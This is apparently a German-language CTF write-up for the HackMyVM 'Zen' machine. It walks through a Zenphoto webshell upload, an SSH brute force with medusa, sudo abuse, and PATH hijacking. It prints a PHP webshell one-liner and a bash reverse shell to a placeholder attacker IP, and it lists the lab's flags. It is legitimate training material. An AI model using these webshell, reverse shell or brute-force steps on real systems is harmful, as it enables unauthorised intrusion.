 # Zen - HackMyVM (Hard)
 
![Zen.png](Zen.png)

## Übersicht

*   **VM:** Zen
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Zen)
*   **Schwierigkeit:** Hard
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 12. März 2020
*   **Original-Writeup:** https://alientec1908.github.io/Zen_HackMyVM_Hard/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel der "Zen"-Challenge war die Erlangung von User- und Root-Rechten. Der Weg begann mit der Enumeration eines Webservers (Port 80), der eine Zenphoto 1.5.7 Installation hostete. In der `/robots.txt` wurde das Passwort `P@ssw0rd` für den Admin-Account gefunden. Nach dem Login in das Zenphoto-Admin-Interface (`/zp-core/admin.php`) wurde eine bekannte Shell-Upload-Schwachstelle (CVE für Version 1.5.7, z.B. von Packet Storm oder GitHub) ausgenutzt, um eine PHP-Webshell (`bentec.php`) in das `/themes/`-Verzeichnis hochzuladen. Dies ermöglichte RCE und das Etablieren einer Reverse Shell als `www-data`. Als `www-data` wurden die Benutzer `kodo`, `zenmaster` und `hua` aus `/etc/passwd` identifiziert. Mit `medusa` wurde das SSH-Passwort für `zenmaster` (`zenmaster`) gebruteforced. Als `zenmaster` zeigte `sudo -l`, dass `/bin/bash` als Benutzer `kodo` ausgeführt werden durfte, was einen Wechsel zu `kodo` ermöglichte. Als `kodo` zeigte `sudo -l`, dass `/usr/bin/see` (ein Symlink zu `run-mailcap`) als Benutzer `hua` ausgeführt werden durfte. Dies wurde vermutlich durch Manipulation der `PAGER`-Umgebungsvariable ausgenutzt, um eine Shell als `hua` zu erhalten (genauer Exploit nicht im Log). Schließlich erlaubte eine `sudo`-Regel dem Benutzer `hua`, `/usr/sbin/add-shell` als `root` auszuführen. Da `add-shell` intern `awk` ohne absoluten Pfad aufrief, konnte durch PATH-Hijacking (Erstellen einer bösartigen `awk`-Datei in `/usr/local/bin`, die eine Reverse Shell startete) eine Root-Shell erlangt werden.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `vi`
*   Web Browser (impliziert)
*   `grep`
*   `medusa`
*   `ssh`
*   `python3` (für Shell-Stabilisierung)
*   `find`
*   `cat`
*   `sudo`
*   `ls`
*   `nano` (erwähnt)
*   `chmod`
*   `nc` (netcat)
*   `/usr/bin/see` (run-mailcap)
*   `/usr/sbin/add-shell`
*   Standard Linux-Befehle (`cd`, `id`, `pwd`, `export`, `echo`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Zen" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration (Zenphoto):**
    *   IP-Findung mit `arp-scan` (Ziel-IP `192.168.2.133` oder `.137` je nach Log-Abschnitt, `zen.hmv` in `/etc/hosts`).
    *   `nmap`-Scan identifizierte offene Ports: 22 (SSH - OpenSSH 7.9p1) und 80 (HTTP - Nginx 1.14.2).
    *   Manuelle Untersuchung und `gobuster` auf Port 80. Analyse von `/robots.txt` enthüllte `Disallow: /P@ssw0rd` (Admin-Passwort) und Hinweise auf Zenphoto 1.5.7.
    *   Identifizierung des Zenphoto-Admin-Logins (`/zp-core/admin.php`).

2.  **Initial Access (Zenphoto RCE zu `www-data`):**
    *   Login in das Zenphoto-Admin-Interface mit `admin:P@ssw0rd`.
    *   Ausnutzung einer bekannten Shell-Upload-Schwachstelle in Zenphoto 1.5.7 (z.B. via GitHub Exploit).
    *   Hochladen einer PHP-Webshell (`bentec.php` mit `<?php system($GET['cmd']); ?>`) in das `/themes/`-Verzeichnis.
    *   Ausführung eines Bash-Reverse-Shell-Payloads über die Webshell (`http://192.168.2.133/themes/bentec.php?cmd=...reverse_shell...`).
    *   Erlangung einer interaktiven Shell als `www-data` nach Stabilisierung.

3.  **Privilege Escalation (von `www-data` zu `zenmaster`):**
    *   Als `www-data` wurden die Benutzer `kodo`, `zenmaster`, `hua` aus `/etc/passwd` enumeriert.
    *   `medusa -h 192.168.2.133 -M ssh -U [userliste] -P /usr/share/wordlists/rockyou.txt` fand das Passwort `zenmaster` für den Benutzer `zenmaster`.
    *   SSH-Login als `zenmaster:zenmaster`.
    *   User-Flag `hmvzenit` in `/home/zenmaster/user.txt` gelesen.

4.  **Privilege Escalation (von `zenmaster` zu `kodo` via `sudo bash`):**
    *   `sudo -l` als `zenmaster` zeigte: `(kodo) NOPASSWD: /bin/bash`.
    *   Ausführung von `sudo -u kodo /bin/bash`.
    *   Erlangung einer Shell als `kodo`.

5.  **Privilege Escalation (von `kodo` zu `hua` via `sudo run-mailcap`):**
    *   `sudo -l` als `kodo` zeigte: `(hua) NPASSWD: /usr/bin/see` (Symlink zu `run-mailcap`).
    *   *Der genaue Exploit für `run-mailcap` ist im Log nicht dokumentiert, aber GTFOBins beschreibt Methoden via `PAGER`-Manipulation.*
    *   Erlangung einer Shell als `hua` (impliziert).

6.  **Privilege Escalation (von `hua` zu `root` via `sudo add-shell` und PATH Hijacking):**
    *   `sudo -l` als `hua` zeigte: `(root) NOPASSWD: /usr/sbin/add-shell`.
    *   Analyse von `/usr/sbin/add-shell` (impliziert) zeigte, dass es intern `awk` ohne absoluten Pfad aufrief.
    *   PATH-Hijacking:
        1.  `cd /usr/local/bin` (oder anderes Verzeichnis im `secure_path` vor `/usr/bin`)
        2.  `echo '#!/bin/bash' > awk`
        3.  `echo 'bash -c "bash -i >& /dev/tcp/[Angreifer-IP]/85 0>&1"' >> awk` (oder direkter `/bin/bash`)
        4.  `chmod +x awk`
    *   Starten eines `nc`-Listeners auf dem Angreifer-System (Port 85).
    *   Ausführung von `sudo /usr/sbin/add-shell [beliebiges_argument]` als `hua`.
    *   Das `sudo`-Kommando führte das manipulierte `awk`-Skript mit Root-Rechten aus.
    *   Erlangung einer Root-Shell.
    *   Root-Flag `hmvenlightenment` in `/root/root.txt` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Passwort in `robots.txt`:** Admin-Passwort für Zenphoto wurde preisgegeben.
*   **Veraltete Software mit bekannter RCE (Zenphoto 1.5.7):** Ausnutzung einer Shell-Upload-Schwachstelle.
*   **Schwaches Passwort (brute-forceable):** SSH-Passwort für `zenmaster` (`zenmaster`) war leicht zu erraten/bruteforcen.
*   **Unsichere `sudo`-Konfigurationen:**
    *   `zenmaster` durfte `/bin/bash` als `kodo` ausführen.
    *   `kodo` durfte `/usr/bin/see` (run-mailcap) als `hua` ausführen (Shell-Escape möglich).
    *   `hua` durfte `/usr/sbin/add-shell` als `root` ausführen, welches anfällig für PATH-Hijacking war.
*   **PATH Hijacking:** Ein SUID-Programm oder ein via `sudo` ausgeführtes Programm rief einen Befehl (`awk`) ohne absoluten Pfad auf, was die Ausführung eines bösartigen Skripts ermöglichte.

## Flags

*   **User Flag (`/home/zenmaster/user.txt`):** `hmvzenit`
*   **Root Flag (`/root/root.txt`):** `hmvenlightenment`

## Tags

`HackMyVM`, `Zen`, `Hard`, `robots.txt`, `Zenphoto`, `RCE`, `Shell Upload`, `Password Cracking`, `Medusa`, `SSH`, `sudo Exploitation`, `run-mailcap`, `PATH Hijacking`, `Privilege Escalation`, `Linux`, `Web`
